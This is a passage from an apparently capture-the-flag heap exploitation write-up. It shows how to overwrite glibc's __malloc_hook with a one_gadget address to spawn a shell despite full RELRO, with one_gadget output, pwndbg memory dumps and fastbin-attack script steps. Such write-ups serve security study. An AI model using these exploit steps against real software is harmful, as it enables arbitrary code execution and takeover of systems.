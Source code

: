### Popping Shellz
Unfortunately, we are unable to overwrite a GOT entry due to full RELRO. However, the writeup referenced earlier mentions:
>"If the binary had full RELRO, we can still get around it by overwriting the __malloc_hook function pointer in libc (which is the subject of a future post)."

Naturally, __malloc_hook is as it sounds. From the man pages:
> The GNU C library lets you modify the behavior of malloc(3),  realloc(3),  and  free(3)  by specifying  appropriate hook functions. You can use these hooks to help you debug programs that use dynamic memory allocation, for example.

So any address we write to __malloc_hook will be jumped to whenever malloc gets called. The question then became, where do we want to jump to?
This took  me a long time to figure out, but a really SIMPLE solution exists. [One-gadgets](https://github.com/david942j/one_gadget) are literally addresses you jump to and magically a shell appears. However, certain conditions must be met. Running the linked tool, three potential gadgets were found:
```
$ one_gadget libc-2.24.so-dc6abed98572f9e74390316f9d122aca 
0x3f306	execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x3f35a	execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xd695f	execve("/bin/sh", rsp+0x60, environ)
constraints:
  [rsp+0x60] == NULL
```
I was super lazy and just tried them all, rather than checking the conditions manually (it was like 1am at this point so you gotta forgive me). I can tell you that the second one worked :)

The last critical question to answer is how do we overwrite __malloc_hook? We simply use the same trick that was used to leak the main_arena address. However, there is one problem... when we allocate the chunk ontop of __malloc_hook it needs to the right size (max of 0x80 since its a fast bin). However, the __malloc_hook address is not valid!
```
pwndbg> x/2gx &__malloc_hook
0x7f287b471b10 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
```
But from before, we know we have an overflow and so any valid memory address BEFORE __malloc_hook will do (although overflowing is not necessary in this case):
```
pwndbg> x/16gx &__malloc_hook-14
0x7f287b471aa0 <_IO_wide_data_0+224>:	0x0000000000000000	0x0000000000000000
0x7f287b471ab0 <_IO_wide_data_0+240>:	0x0000000000000000	0x0000000000000000
0x7f287b471ac0 <_IO_wide_data_0+256>:	0x0000000000000000	0x0000000000000000
0x7f287b471ad0 <_IO_wide_data_0+272>:	0x0000000000000000	0x0000000000000000
0x7f287b471ae0 <_IO_wide_data_0+288>:	0x0000000000000000	0x0000000000000000
0x7f287b471af0 <_IO_wide_data_0+304>:	0x00007f287b470260	0x0000000000000000
0x7f287b471b00 <__memalign_hook>:	0x00007f287b132e20	0x00007f287b132a00
0x7f287b471b10 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
```
0x7f is a valid size! So now we know we know we want to allocate a chunk 35 bytes before __malloc_hook, then fill that chunk to overwrite __malloc_hook to our one gadget:
```
allocate(p, 0x10) # 3
allocate(p, 0x60) # 5
allocate(p, 0x60) # 6

free(p, 6)
free(p, 5)

fill(p, 3, ("A"*16)+p64(0x00)+p64(0x71)+p64(libc+fchunk))
```